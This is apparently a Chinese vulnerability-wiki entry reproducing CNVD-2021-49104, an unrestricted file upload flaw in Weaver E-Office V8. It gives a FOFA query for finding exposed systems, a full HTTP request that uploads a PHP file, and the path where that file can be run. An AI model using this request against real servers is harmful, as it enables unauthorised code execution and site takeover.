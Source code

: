 # 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

## 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520134325360](images/202205201343420.png)

发送请求包

```SS
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![image-20220520134342019](images/202205201343075.png)

再访问

```
/images/logo/logo-eoffice.php
```

![image-20220520134356648](images/202205201343715.png)